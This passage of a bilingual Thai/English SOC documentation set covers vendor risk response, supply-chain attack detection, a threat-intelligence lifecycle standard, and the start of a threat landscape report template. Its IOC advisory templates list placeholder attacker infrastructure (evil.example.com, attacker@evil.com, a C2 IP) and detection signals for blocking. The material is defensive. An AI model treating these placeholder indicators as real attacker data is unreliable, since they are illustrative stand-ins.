    B -->|ใช่| C[P1: เริ่ม IR]
    B -->|ไม่| D[P3: Monitor & ประเมิน]
    B -->|ไม่ทราบ| E[P2: สืบสวนด่วน]

    C --> F[ระงับ vendor access ทั้งหมด]
    C --> G[ประเมินขอบเขตข้อมูลที่รั่ว]
    C --> H[แจ้ง DPO / กฎหมาย]

    E --> I[ขอ IOCs จาก vendor]
    E --> J[ค้นหาย้อนหลังใน logs]
    I --> K{พบ match?}
    J --> K
    K -->|ใช่| C
    K -->|ไม่| L[Monitor ต่อ 30 วัน]

    style A fill:#3b82f6,color:#fff
    style C fill:#dc2626,color:#fff
    style L fill:#22c55e,color:#fff
```

### ขั้นตอนตอบสนอง

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | SLA |
|:---:|:---|:---|:---:|
| 1 | รับการแจ้ง breach จาก vendor | SOC Tier 2 | — |
| 2 | ประเมินผลกระทบ: ข้อมูล/การเข้าถึงของเราได้รับผลกระทบ? | SOC Lead | 1 ชม. |
| 3 | ถ้าได้รับผลกระทบ: **ระงับ vendor access ทันที** | SOC Engineering | 15 นาที |
| 4 | ขอ IOCs จาก vendor (IPs, domains, hashes, TTPs) | SOC Lead | 2 ชม. |
| 5 | ค้นหา IOCs ใน logs (ย้อนหลัง 90 วัน) | SOC Tier 2/3 | 4 ชม. |
| 6 | ถ้าพบ match: **Escalate เป็น P1** | IR Manager | ทันที |
| 7 | แจ้ง DPO/กฎหมายถ้า PII อาจรั่วไหล | SOC Manager | 4 ชม. |
| 8 | แจ้ง PDPA ถ้ามีข้อมูลคนไทยได้รับผลกระทบ | DPO | < 72 ชม. |
| 9 | Vendor ต้องส่ง root cause + แผนแก้ไข | Vendor | 30 วัน |

---

## การตรวจจับ Supply Chain Attack

### สัญญาณเตือน

| สัญญาณ | วิธีตรวจจับ | ตัวอย่าง Rule |
|:---|:---|:---|
| Software update จากแหล่งไม่คาดหมาย | ตรวจ Hash | Hash ≠ hash ที่ vendor ประกาศ |
| Code ไม่คาดหมายใน dependency | SCA tools (Snyk ฯลฯ) | Dependency ใหม่ที่ไม่น่าเชื่อถือ |
| Vendor tool เชื่อมต่อ network ผิดปกติ | NDR / firewall | Agent เชื่อมต่อ IP ไม่รู้จัก |
| Certificate ของ vendor portal เปลี่ยน | Certificate monitoring | Cert issuer เปลี่ยนกะทันหัน |

### Checklist ป้องกันแบบ SolarWinds

- [ ] ตรวจ hash ของ update ก่อน deploy
- [ ] Monitor พฤติกรรม network ของ vendor software หลัง update
- [ ] แยก vendor tools บน network segment แยก
- [ ] รัน vendor binaries ใน sandbox ที่ monitor ก่อน
- [ ] สมัครรับ vendor security advisories
- [ ] จัดทำ SBOM ของ vendor software

---

## Template Vendor Inventory

| Vendor | ชั้น | บริการ | ข้อมูลที่เข้าถึง | วิธีเข้าถึง | การ Monitor | หมดสัญญา | ทบทวนล่าสุด | คะแนนเสี่ยง |
|:---|:---:|:---|:---|:---|:---:|:---:|:---:|:---:|
| ____________ | 1/2/3/4 | ____________ | PII/ธุรกิจ/ไม่มี | VPN/API/Portal | เต็ม/เข้มข้น/มาตรฐาน/พื้นฐาน | ____-__-__ | ____-__-__ | __/10 |

---

## การประสานงานกับ MSSP

| ข้อกำหนด | รายละเอียด |
|:---|:---|
| **Playbook ร่วม** | MSSP ต้องใช้ playbook เดียวกับทีมภายใน |
| **เส้นทาง Escalation** | MSSP → SOC Lead ภายใน → IR Manager (บันทึกไว้) |
| **การจัดการข้อมูล** | MSSP ไม่สามารถส่งออกข้อมูลได้โดยไม่ได้รับอนุมัติ |
| **SLA monitoring** | ติดตาม MTTD, MTTR, SLA ของ MSSP แยกต่างหาก |
| **สิทธิ์ audit** | ทบทวน MSSP operations รายไตรมาส |
| **แผนยุติสัญญา** | แผนการ transition เมื่อต้องเปลี่ยน MSSP |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย | วิธีวัด |
|:---|:---:|:---|
| ทบทวน vendor access ตรงเวลา | 100% | ตามตารางแต่ละชั้น |
| Vendor accounts ที่มี MFA | 100% | ตรวจรายเดือน |
| Dormant vendor accounts ที่ disable | 100% (> 90 วัน) | ตรวจอัตโนมัติ |
| เวลาในการ disable vendor ที่ถูกบุกรุก | < 15 นาที | จากตรวจพบถึง disable |
| Vendor IOC hunt เสร็จ | < 4 ชม. | จากได้รับ IOC ถึงสแกนเสร็จ |

---

## เทมเพลตแบบประเมินผู้ให้บริการ

### Security Assessment Questionnaire

| # | หมวด | คำถาม | คำตอบ | Risk |
|:---:|:---|:---|:---|:---:|
| 1 | **Certifications** | มี ISO 27001 / SOC 2? | [ใช่/ไม่] | 🔴/🟢 |
| 2 | **Data Handling** | ข้อมูลเข้ารหัสระหว่างจัดเก็บ? | [ใช่/ไม่] | 🔴/🟢 |
| 3 | **Data Location** | ข้อมูลจัดเก็บในประเทศไทย? | [ใช่/ไม่] | 🔴/🟢 |
| 4 | **Access Control** | ใช้ MFA สำหรับ admin access? | [ใช่/ไม่] | 🔴/🟢 |
| 5 | **Incident Response** | มีแผน IR ที่ทดสอบแล้ว? | [ใช่/ไม่] | 🔴/🟢 |
| 6 | **BCP/DR** | มีแผน BCP/DR? | [ใช่/ไม่] | 🔴/🟢 |
| 7 | **PDPA** | ปฏิบัติตาม PDPA? | [ใช่/ไม่] | 🔴/🟢 |

### Risk Scoring

| คะแนนรวม | Risk Level | Action |
|:---|:---|:---|
| 0–2 🔴 flags | **Low Risk** | อนุมัติ, review ปีละครั้ง |
| 3–4 🔴 flags | **Medium Risk** | อนุมัติแบบมีเงื่อนไข |
| 5–6 🔴 flags | **High Risk** | ต้อง remediate ก่อนอนุมัติ |
| 7 🔴 flags | **Critical** | ไม่อนุมัติ |

## Continuous Monitoring

| ตรวจสอบ | ความถี่ | เครื่องมือ |
|:---|:---|:---|
| Security scorecard | รายเดือน | SecurityScorecard / BitSight |
| Certificate expiry | อัตโนมัติ | SSL monitoring |
| Dark web mentions | รายสัปดาห์ | TI platform |
| Service availability | Real-time | Uptime monitoring |

## Vendor Incident SLA

| ระดับ | คำอธิบาย | Notification SLA | Resolution SLA |
|:---|:---|:---:|:---:|
| 🔴 Critical | Data breach | ≤ 1 ชม. | ≤ 24 ชม. |
| 🟡 High | Security incident | ≤ 4 ชม. | ≤ 48 ชม. |
| 🟠 Medium | Vulnerability | ≤ 24 ชม. | ≤ 7 วัน |
| 🟢 Low | Config issue | ≤ 72 ชม. | ≤ 30 วัน |

## Third-Party Security Assessment

### Vendor Security Scorecard

| Domain | Weight | Questions | Score Method |
|:---|:---|:---|:---|
| Data Protection | 25% | 8 ข้อ | Evidence-based |
| Access Control | 20% | 6 ข้อ | Audit + policy |
| Incident Response | 20% | 5 ข้อ | SLA + drill |
| Compliance | 15% | 5 ข้อ | Cert + audit |
| Business Continuity | 10% | 4 ข้อ | DR test |
| Physical Security | 10% | 3 ข้อ | Site visit |

### Risk Tier Classification

| Tier | Criteria | Review Cycle | Assessment |
|:---|:---|:---|:---|
| Critical | มีสิทธิ์เข้าข้อมูลลูกค้า | ทุก 6 เดือน | Full + Pentest |
| High | เข้าถึงระบบ production | ทุก 12 เดือน | Full assessment |
| Medium | เข้าถึง non-prod | ทุก 18 เดือน | Questionnaire |
| Low | ไม่เข้าถึงข้อมูล/ระบบ | ทุก 24 เดือน | Self-assessment |

### Continuous Monitoring Checklist
- [ ] ตรวจสอบ SOC 2 / ISO 27001 certificate validity
- [ ] Monitor vendor breach news feeds
- [ ] Review vendor access logs monthly
- [ ] Validate data handling compliance
- [ ] Check SLA performance metrics

### Vendor Incident Notification Requirements

| Severity | Notification SLA | แจ้งใคร |
|:---|:---|:---|
| Critical breach | 4 ชั่วโมง | CISO + Legal + DPO |
| High risk event | 24 ชั่วโมง | Security Manager |
| Medium risk | 72 ชั่วโมง | SOC Team |
| Service degradation | 5 วันทำการ | IT Operations |

### Contract Security Clauses Checklist
- [ ] Right to audit clause
- [ ] Data breach notification SLA
- [ ] Data handling & encryption requirements
- [ ] Background check requirements
- [ ] Termination data destruction clause

### Annual Review Cycle

| Quarter | Activities |
|:---|:---|
| Q1 | Vendor inventory update |
| Q2 | Critical vendor assessments |
| Q3 | Policy & contract reviews |
| Q4 | Annual risk report |

## เอกสารที่เกี่ยวข้อง

-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md)
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md)
-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md)
-   [Vendor Evaluation](Vendor_Evaluation.en.md)
-   [SLA Template](SLA_Template.en.md)
-   [Log Source Matrix](Log_Source_Matrix.en.md)


---

## File: 06_Operations_Management/Threat_Intelligence_Lifecycle.en.md

# Threat Intelligence Lifecycle (CTI)

**Version**: 1.0
**Owner**: CTI Analyst / SOC Manager

## 1. Overview
Cyber Threat Intelligence (CTI) is the process of collecting, analyzing, and disseminating information about current and potential attacks. This standard ensures our SOC moves from "Reactive" to "Proactive".

```mermaid
graph TD
    Direction[1. Direction] --> Collection[2. Collection]
    Collection --> Processing[3. Processing]
    Processing --> Analysis[4. Analysis]
    Analysis --> Dissemination[5. Dissemination]
    Dissemination --> Feedback[6. Feedback]
    Feedback --> Direction
```

## 2. Phases

### Phase 1: Direction (Requirement)
-   **Goal**: Define what we are protecting and what questions we need answered.
-   **Key Intelligence Questions (KIQs)**:
    -   "Is the new 'ABC Ransomware' targeting our industry?"
    -   "Do we have exposure to the CVE-2026-XXXX vulnerability?"

### Phase 2: Collection
-   **Internal Sources**: SIEM Logs, Incident Tickets, EDR Alerts.
-   **External Sources**:
    -   **Open Source (OSINT)**: Twitter, Blogs, CISA Alerts.
    -   **Commercial Feeds**: Vendor reports, Paid API feeds.
    -   **Communities**: ISACs, CERTs, Trusted Partner Peers.

### Phase 3: Processing
-   **Normalization**: Converting raw data (PDFs, Tweets) into standard formats (STIX/TAXII, CSV).
-   **Validation**: Confirming that an Indicator of Compromise (IoC) is valid and not a False Positive (e.g., verifying a "malicious IP" isn't actually Google DNS).

### Phase 4: Analysis
-   **Contextualization**: Adding "So What?".
    -   *Raw Data*: "IP 1.2.3.4 is bad."
    -   *Intelligence*: "IP 1.2.3.4 is a C2 server for APT29 targeting Banks. We are a Bank. Severity = Critical."

### Phase 5: Dissemination
-   **Tactical**: IoCs sent to SIEM/Firewall for blocking (TLP:GREEN).
-   **Operational**: Reports sent to SOC Manager for awareness (TLP:AMBER).
-   **Strategic**: Trend reports sent to CISO/Board (TLP:CLEAR/WHITE).

### Phase 6: Feedback
-   **Review**: Did the intel help? Did it cause false positives?
-   **Action**: Tune sources or refine requirements.

## 3. IoC Management Policy
All Indicators of Compromise (IoCs) must go through the **Review Process** before blocking:
1.  Analyst collects IoC.
2.  Analyst checks reputation (VirusTotal / internal logs).
3.  Analyst updates reference list in SIEM (Test Mode).
4.  If stable > 24 hours, move to Block Mode.

### IoC Aging & Confidence Scoring

| IoC Type | Initial Confidence | Aging Policy | Auto-Expire |
|:---|:---:|:---|:---:|
| IP Address | Medium (60%) | Decrease 10%/week | 30 days |
| Domain | Medium (60%) | Decrease 5%/week | 60 days |
| File Hash (MD5/SHA256) | High (90%) | Stable | Never |
| URL | Medium (60%) | Decrease 10%/week | 30 days |
| Email Address | High (80%) | Decrease 5%/month | 180 days |
| JA3/JA3S Hash | High (85%) | Stable | 90 days |
| YARA Rule | High (90%) | Stable | Review annually |

### IoC Review Workflow

```mermaid
graph LR
    Collect["Collect IoC"] --> Validate["Validate (VT/OSINT)"]
    Validate --> Score["Assign Confidence"]
    Score --> Test["SIEM Test Mode 24h"]
    Test --> FP{"False Positives?"}
    FP -->|Yes| Refine["Refine / Drop"]
    FP -->|No| Block["Move to Block"]
    Block --> Monitor["Monitor & Age"]
    Monitor --> Expire{"Expired?"}
    Expire -->|Yes| Archive["Archive"]
    Expire -->|No| Monitor
```

## 4. TI Platform Integration

| Platform | Type | Data Format | Update Frequency | Integration |
|:---|:---|:---|:---|:---|
| MISP | Internal TIP | STIX 2.1 | Real-time | API → SIEM |
| AlienVault OTX | OSINT | OTX Pulse | Hourly | API → SIEM |
| VirusTotal | Enrichment | JSON API | On-demand | API → SOAR |
| AbuseIPDB | OSINT | CSV/API | Daily | API → Firewall |
| CISA KEV | Gov Advisory | JSON | Daily | API → Vuln Mgmt |
| Sector ISAC | Community | STIX/TAXII | Daily | TAXII → MISP |

## 5. Priority Intelligence Requirements (PIRs)

| # | PIR | Owner | Review |
|:---:|:---|:---|:---|
| 1 | What threat actors are targeting our industry sector? | CTI Analyst | Monthly |
| 2 | Are there active campaigns exploiting our technology stack? | CTI Analyst | Weekly |
| 3 | What new CVEs affect our critical assets? | Vuln Mgmt | Daily |
| 4 | Are our IoC feeds detecting current campaign infrastructure? | Detection Eng | Weekly |
| 5 | What TTPs are trending in our region (APAC/Thailand)? | CTI Analyst | Monthly |

## 6. CTI Maturity Levels

| Level | Description | Activities |
|:---|:---|:---|
| **Level 0** | None | No TI program |
| **Level 1** | Reactive | IoC feeds only, no analysis |
| **Level 2** | Managed | Structured collection, basic analysis, SIEM integration |
| **Level 3** | Proactive | PIR-driven, threat hunting, TIP platform |
| **Level 4** | Predictive | Attribution, adversary tracking, board-level reporting |

## 7. Threat Intel Report Template

### Quick IOC Advisory (TLP:GREEN)

```markdown
## IOC Advisory — [Campaign Name]
**Date**: YYYY-MM-DD
**TLP**: GREEN
**Confidence**: [High/Medium/Low]

### Summary
[1-2 sentence description of the threat]

### IOCs
| Type | Value | Context |
|:---|:---|:---|
| IP | x.x.x.x | C2 server |
| Domain | evil.example.com | Phishing infrastructure |
| SHA256 | abcdef... | Malware payload |
| Email | attacker@evil.com | Phishing sender |

### MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|:---|:---|:---|
| Initial Access | Spearphishing Attachment | T1566.001 |
| Execution | PowerShell | T1059.001 |

### Recommended Actions
1. Block IOCs in firewall/proxy
2. Search SIEM for historical hits
3. Update EDR detection rules
4. Brief analysts on campaign TTPs
```

### Diamond Model Analysis

```mermaid
graph TD
    subgraph Diamond["Diamond Model"]
        Adversary["👤 Adversary<br/>[APT Group Name]"]
        Capability["⚡ Capability<br/>[Malware/Tool]"]
        Infrastructure["🏗️ Infrastructure<br/>[C2 Servers/Domains]"]
        Victim["🎯 Victim<br/>[Industry/Organization]"]

        Adversary --- Capability
        Adversary --- Infrastructure
        Capability --- Victim
        Infrastructure --- Victim
    end

    style Adversary fill:#e74c3c,color:#fff
    style Capability fill:#f39c12,color:#fff
    style Infrastructure fill:#3498db,color:#fff
    style Victim fill:#2ecc71,color:#fff
```

| Element | Questions to Answer |
|:---|:---|
| **Adversary** | Who? Attribution, motivation (financial/espionage/hacktivism) |
| **Capability** | What tools/malware? Custom or commodity? Sophistication level? |
| **Infrastructure** | C2 servers, domains, hosting providers, IP ranges, TOR? |
| **Victim** | Who is targeted? Industry, geography, organization size? |

## 8. STIX/TAXII Quick Reference

| Concept | Purpose | Example |
|:---|:---|:---|
| **STIX** | Structured format for CTI | An indicator object describing a malicious IP |
| **TAXII** | Transport protocol for CTI sharing | Server-to-server automated IOC exchange |
| **Indicator** | Observable pattern + context | SHA256 hash + malware family name |
| **Attack Pattern** | Description of adversary TTP | T1059.001 — PowerShell execution |
| **Malware** | Description of malware sample | Agent Tesla RAT capabilities |
| **Threat Actor** | Description of adversary group | APT29 — Russian SVR |
| **Campaign** | Set of related activities | Q1 2026 banking trojan campaign |
| **Relationship** | Link between STIX objects | Malware X "uses" Technique Y |

## Related Documents
-   [Incident Response Framework](../05_Incident_Response/Framework.en.md)
-   [SOC Assessment Checklist](SOC_Assessment_Checklist.en.md)
-   [SOC Metrics & KPIs](SOC_Metrics.en.md)

## References
-   [CREST Cyber Threat Intelligence](https://www.crest-approved.org/knowledge-base/cyber-threat-intelligence/)
-   [SANS CTI Maturity Model](https://www.sans.org/white-papers/cti-maturity-model/)


---

## File: 06_Operations_Management/Threat_Intelligence_Lifecycle.th.md

# วงจรข่าวกรองภัยคุกคาม (Threat Intelligence Lifecycle)

**เวอร์ชัน**: 1.0
**ผู้รับผิดชอบ**: CTI Analyst / SOC Manager

## 1. ภาพรวม
Cyber Threat Intelligence (CTI) คือกระบวนการรวบรวม วิเคราะห์ และแจกจ่ายข้อมูลเกี่ยวกับภัยคุกคาม เพื่อให้ SOC สามารถป้องกันตนเองได้ก่อนที่จะเกิดเหตุ (Proactive)

```mermaid
graph TD
    Direction[1. กำหนดทิศทาง] --> Collection[2. รวบรวมข้อมูล]
    Collection --> Processing[3. ประมวลผล]
    Processing --> Analysis[4. วิเคราะห์]
    Analysis --> Dissemination[5. แจกจ่าย]
    Dissemination --> Feedback[6. ข้อเสนอแนะ]
    Feedback --> Direction
```

## 2. ขั้นตอนการทำงาน (Phases)

### Phase 1: Direction (กำหนดโจทย์)
-   **เป้าหมาย**: ระบุว่าเราต้องการรู้อะไร?
-   **คำถามหลัก (KIQs)**:
    -   "กลุ่มแฮกเกอร์ ABC กำลังโจมตีธุรกิจประเภทเดียวกับเราหรือไม่?"
    -   "เรามีความเสี่ยงต่อช่องโหว่ใหม่ CVE-2026-XXXX หรือไม่?"

### Phase 2: Collection (รวบรวม)
-   **แหล่งภายใน**: SIEM Logs, เคสเก่าๆ
-   **แหล่งภายนอก**:
    -   **OSINT**: Twitter, ข่าวความปลอดภัย, CISA
    -   **Commercial**: Feed ที่เสียเงินซื้อ
    -   **Communities**: กลุ่ม ThaiCERT, TB-CERT

### Phase 3: Processing (ประมวลผล)
-   **จัดระเบียบ**: แปลงข้อมูลจากข่าว/PDF ให้เป็น Format ที่คอมพิวเตอร์อ่านได้ (STIX, CSV)
-   **ตรวจสอบ**: ยืนยันว่าข้อมูลถูกต้อง (Validation) เพื่อลด False Positive

### Phase 4: Analysis (วิเคราะห์)
-   **การให้บริบท**: เปลี่ยน "ข้อมูลดิบ" เป็น "ข่าวกรอง"
    -   *ข้อมูลดิบ*: "IP 1.2.3.4 เป็นอันตราย"
    -   *ข่าวกรอง*: "IP 1.2.3.4 เป็น C2 ของ APT29 ที่เล็งเป้าธนาคาร และเราเป็นธนาคาร ดังนั้นความเสี่ยง = สูงมาก"

### Phase 5: Dissemination (แจกจ่าย)
-   **Tactical**: ส่ง IP/Hash ลง SIEM/Firewall เพื่อบล็อก (TLP:GREEN)
-   **Operational**: ส่งรายงานให้หัวหน้าทีม SOC (TLP:AMBER)
-   **Strategic**: ส่งสรุปแนวโน้มให้ผู้บริหาร (TLP:CLEAR/WHITE)

### Phase 6: Feedback (ปรับปรุง)
-   **ทบทวน**: ข่าวกรองที่ได้มามีประโยชน์ไหม? แจ้งเตือนมั่วซั่วหรือไม่?

## 3. นโยบายการจัดการ IoC
Indicators of Compromise (IoCs) ทุกตัวต้องผ่านกระบวนการตรวจสอบก่อนบล็อก:
1.  Analyst รวบรวม IoC
2.  ตรวจสอบค่าชื่อเสียง (Reputation Check)
3.  ใส่ใน SIEM ระบบ Test Mode (Monitor Only)
4.  ถ้าไม่มี False Positive นาน 24 ชม. จึงเปิด Block Mode

### คะแนนความเชื่อมั่นและอายุ IoC

| ประเภท IoC | ความเชื่อมั่นเริ่มต้น | นโยบายอายุ | หมดอายุอัตโนมัติ |
|:---|:---:|:---|:---:|
| IP Address | กลาง (60%) | ลด 10%/สัปดาห์ | 30 วัน |
| Domain | กลาง (60%) | ลด 5%/สัปดาห์ | 60 วัน |
| File Hash (MD5/SHA256) | สูง (90%) | คงที่ | ไม่มี |
| URL | กลาง (60%) | ลด 10%/สัปดาห์ | 30 วัน |
| Email Address | สูง (80%) | ลด 5%/เดือน | 180 วัน |

## แพลตฟอร์ม TI Integration

| แพลตฟอร์ม | ประเภท | รูปแบบข้อมูล | ความถี่อัปเดต | Integration |
|:---|:---|:---|:---|:---|
| MISP | Internal TIP | STIX 2.1 | Real-time | API → SIEM |
| AlienVault OTX | OSINT | OTX Pulse | รายชั่วโมง | API → SIEM |
| VirusTotal | Enrichment | JSON API | ตามต้องการ | API → SOAR |
| AbuseIPDB | OSINT | CSV/API | รายวัน | API → Firewall |
| CISA KEV | Gov Advisory | JSON | รายวัน | API → Vuln Mgmt |

## ข้อกำหนดข่าวกรองเชิงลำดับความสำคัญ (PIRs)

| # | PIR | ผู้รับผิดชอบ | ทบทวน |
|:---:|:---|:---|:---|
| 1 | กลุ่มภัยคุกคามใดที่กำลังเล็งเป้าอุตสาหกรรมของเรา? | CTI Analyst | รายเดือน |
| 2 | มีแคมเปญที่ active ใช้ประโยชน์จาก Tech stack ของเราหรือไม่? | CTI Analyst | รายสัปดาห์ |
| 3 | CVE ใหม่ใดที่ส่งผลกระทบต่อทรัพย์สินสำคัญของเรา? | Vuln Mgmt | รายวัน |
| 4 | IoC feeds ของเราตรวจจับโครงสร้างแคมเปญปัจจุบันได้หรือไม่? | Detection Eng | รายสัปดาห์ |

## 7. Template รายงาน Threat Intel

### IOC Advisory ด่วน (TLP:GREEN)

```markdown
## IOC Advisory — [ชื่อแคมเปญ]
**วันที่**: YYYY-MM-DD
**TLP**: GREEN
**ความมั่นใจ**: [สูง/กลาง/ต่ำ]

### สรุป
[คำอธิบาย 1-2 ประโยค]

### IOCs
| ประเภท | ค่า | บริบท |
|:---|:---|:---|
| IP | x.x.x.x | C2 server |
| Domain | evil.example.com | โครงสร้าง Phishing |
| SHA256 | abcdef... | Malware payload |
| Email | attacker@evil.com | ผู้ส่ง Phishing |

### MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|:---|:---|:---|
| Initial Access | Spearphishing Attachment | T1566.001 |
| Execution | PowerShell | T1059.001 |

### การดำเนินการที่แนะนำ
1. Block IOCs ใน firewall/proxy
2. ค้นหาใน SIEM ว่าเคยมี hit
3. อัปเดต EDR detection rules
4. บรีฟทีม analyst เรื่อง TTPs
```

### การวิเคราะห์ Diamond Model

```mermaid
graph TD
    subgraph Diamond["Diamond Model"]
        Adversary["👤 ผู้โจมตี<br/>[ชื่อกลุ่ม APT]"]
        Capability["⚡ ความสามารถ<br/>[Malware/เครื่องมือ]"]
        Infrastructure["🏗️ โครงสร้างพื้นฐาน<br/>[C2 Servers/Domains]"]
        Victim["🎯 เป้าหมาย<br/>[อุตสาหกรรม/องค์กร]"]

        Adversary --- Capability
        Adversary --- Infrastructure
        Capability --- Victim
        Infrastructure --- Victim
    end

    style Adversary fill:#e74c3c,color:#fff
    style Capability fill:#f39c12,color:#fff
    style Infrastructure fill:#3498db,color:#fff
    style Victim fill:#2ecc71,color:#fff
```

| องค์ประกอบ | คำถามที่ต้องตอบ |
|:---|:---|
| **ผู้โจมตี** | ใคร? Attribution, แรงจูงใจ (การเงิน/จารกรรม/hacktivism) |
| **ความสามารถ** | ใช้เครื่องมือ/malware อะไร? Custom หรือ commodity? ระดับ? |
| **โครงสร้าง** | C2 servers, domains, hosting providers, IP ranges, TOR? |
| **เป้าหมาย** | ใครถูกกำหนดเป้า? อุตสาหกรรม, ภูมิศาสตร์, ขนาด? |

## 8. อ้างอิง STIX/TAXII ฉบับย่อ

| แนวคิด | วัตถุประสงค์ | ตัวอย่าง |
|:---|:---|:---|
| **STIX** | รูปแบบมาตรฐานสำหรับ CTI | Indicator object อธิบาย IP อันตราย |
| **TAXII** | โปรโตคอลขนส่ง CTI sharing | แลกเปลี่ยน IOC อัตโนมัติระหว่าง server |
| **Indicator** | Observable pattern + บริบท | SHA256 hash + ชื่อ malware family |
| **Attack Pattern** | คำอธิบาย TTP ของผู้โจมตี | T1059.001 — PowerShell execution |
| **Malware** | คำอธิบาย malware sample | Agent Tesla RAT capabilities |
| **Threat Actor** | คำอธิบายกลุ่มผู้โจมตี | APT29 — Russian SVR |
| **Campaign** | ชุดกิจกรรมที่เกี่ยวข้อง | Q1 2026 banking trojan campaign |
| **Relationship** | ลิงก์ระหว่าง STIX objects | Malware X "uses" Technique Y |

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [กรอบการตอบสนองเหตุการณ์](../05_Incident_Response/Framework.th.md)
-   [แบบประเมิน SOC](SOC_Assessment_Checklist.th.md)
-   [ตัวชี้วัด SOC](SOC_Metrics.th.md)

## TI Program Maturity

### Maturity Levels

| Level | Description | Capabilities |
|:---|:---|:---|
| 1 | Reactive | ใช้ free feeds only |
| 2 | Tactical | IOC matching + blocking |
| 3 | Operational | TTP-based detection |
| 4 | Strategic | Threat modeling + attribution |

### TI Consumer Matrix

| Consumer | Need | Format | Frequency |
|:---|:---|:---|:---|
| SOC Analyst | IOCs | STIX/TAXII | Real-time |
| IR Team | TTPs | Report | Per incident |
| Management | Trends | Executive brief | Monthly |
| Board | Risk level | Dashboard | Quarterly |

### TI Quality Metrics

| Metric | Target | Review |
|:---|:---|:---|
| IOC accuracy | > 90% | Monthly |
| Actionable intel | > 60% | Weekly |
| Feed latency | < 1 hr | Real-time |

## References
-   [CREST Cyber Threat Intelligence](https://www.crest-approved.org/knowledge-base/cyber-threat-intelligence/)
-   [SANS CTI Maturity Model](https://www.sans.org/white-papers/cti-maturity-model/)


---

## File: 06_Operations_Management/Threat_Landscape_Report.en.md

# Threat Landscape Report Template

**Document ID**: IR-SOP-018
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> A **quarterly/monthly template** for producing threat landscape reports that keep stakeholders informed about the evolving threat environment and how the SOC is adapting. Use this to brief leadership, justify investments, and prioritize defenses.

---

## Report Metadata

| Field | Value |
|:---|:---|
| **Report Period** | [Month/Quarter] [Year] |
| **Prepared By** | [SOC Lead / Threat Intel Analyst] |
| **Distribution** | [CISO, SOC Team, IT Leadership] |
| **Classification** | [Internal / Confidential] |
| **Next Report Due** | [Date] |

---

## Executive Summary

> Write 3–5 sentences summarizing the most important threat developments this period.

_________________________________________________________________________________
_________________________________________________________________________________
_________________________________________________________________________________

### Key Takeaways

| # | Finding | Risk Level | Action Required |
|:---:|:---|:---:|:---|
| 1 | ________________________________________________ | 🔴/🟠/🟡 | ________________________ |
| 2 | ________________________________________________ | 🔴/🟠/🟡 | ________________________ |
| 3 | ________________________________________________ | 🔴/🟠/🟡 | ________________________ |

---

## Section 1: Global Threat Landscape

### 1a. Major Threat Developments

> Document 3–5 significant threat developments from the reporting period.

| # | Development | Source | Relevance to Our Org |
|:---:|:---|:---|:---:|
| 1 | ________________________________________________ | [CISA/CERT/News] | 🔴 High / 🟡 Medium / 🟢 Low |
| 2 | ________________________________________________ | [CISA/CERT/News] | 🔴 High / 🟡 Medium / 🟢 Low |
| 3 | ________________________________________________ | [CISA/CERT/News] | 🔴 High / 🟡 Medium / 🟢 Low |

### 1b. Active Threat Actor Groups

| Group / Alias | Attribution | Primary Targets | TTPs | Relevance |
|:---|:---|:---|:---|:---:|
| ______________ | [Nation-state/Criminal/Hacktivist] | [Sector/Region] | T______, T______ | 🔴/🟡/🟢 |
| ______________ | [Nation-state/Criminal/Hacktivist] | [Sector/Region] | T______, T______ | 🔴/🟡/🟢 |
| ______________ | [Nation-state/Criminal/Hacktivist] | [Sector/Region] | T______, T______ | 🔴/🟡/🟢 |

### 1c. Industry-Specific Threats

| Threat | Affected Industries | Attack Vector | Our Exposure |
|:---|:---|:---|:---:|
| ______________ | ______________ | ______________ | 🔴/🟡/🟢 |
| ______________ | ______________ | ______________ | 🔴/🟡/🟢 |

---

## Section 2: Vulnerability Landscape

### 2a. Critical Vulnerabilities (This Period)

| CVE | CVSS | Affected Product | Exploited in Wild? | Our Status |
|:---|:---:|:---|:---:|:---:|
| CVE-____-_____ | __._ | ______________ | ✅ Yes / ❌ No | ✅ Patched / ⚠️ In Progress / ❌ Vulnerable |
| CVE-____-_____ | __._ | ______________ | ✅ Yes / ❌ No | ✅ Patched / ⚠️ In Progress / ❌ Vulnerable |
| CVE-____-_____ | __._ | ______________ | ✅ Yes / ❌ No | ✅ Patched / ⚠️ In Progress / ❌ Vulnerable |

### 2b. Zero-Day Tracking

| Vendor | Product | Discovery Date | Patch Available? | Mitigation Applied? |
|:---|:---|:---:|:---:|:---:|
| ______________ | ______________ | ______________ | ✅/❌ | ✅/❌ |

### 2c. Patch Compliance Summary

| Category | Total Assets | Patched (30 days) | % Compliant | Gap |
|:---|:---:|:---:|:---:|:---|
| Servers | _____ | _____ | ___% | ______________ |
| Workstations | _____ | _____ | ___% | ______________ |
| Network Devices | _____ | _____ | ___% | ______________ |
| Cloud Resources | _____ | _____ | ___% | ______________ |

---

## Section 3: Threat Intelligence from SOC Operations

### 3a. Threats Detected by SOC

| Category | Incidents | Trend | Top Technique | Example |
|:---|:---:|:---:|:---|:---|
| Phishing | _____ | ↑/↓ _% | T1566.___ | ________________________ |
| Malware | _____ | ↑/↓ _% | T1059.___ | ________________________ |
| Unauthorized Access | _____ | ↑/↓ _% | T1110.___ | ________________________ |
| Cloud Threats | _____ | ↑/↓ _% | T1078.___ | ________________________ |
| Data Exfiltration | _____ | ↑/↓ _% | T1567.___ | ________________________ |

### 3b. IOC Statistics

| IOC Type | Total Ingested | Matched in Logs | Match Rate | Actionable |
|:---|:---:|:---:|:---:|:---:|
| IP Addresses | _____ | _____ | ___% | _____ |
| Domains | _____ | _____ | ___% | _____ |
| File Hashes | _____ | _____ | ___% | _____ |
| URLs | _____ | _____ | ___% | _____ |
| Email Addresses | _____ | _____ | ___% | _____ |

### 3c. TI Feed Effectiveness

| Feed Source | IOCs Received | True Matches | FP Rate | Value Score |
|:---|:---:|:---:|:---:|:---:|
| ______________ | _____ | _____ | ___% | ★★★★★ |
| ______________ | _____ | _____ | ___% | ★★★★☆ |
| ______________ | _____ | _____ | ___% | ★★★☆☆ |

---

## Section 4: MITRE ATT&CK Analysis

### 4a. Techniques Observed This Period

```mermaid
graph TD
    subgraph "Initial Access"
        T1566[T1566 Phishing]
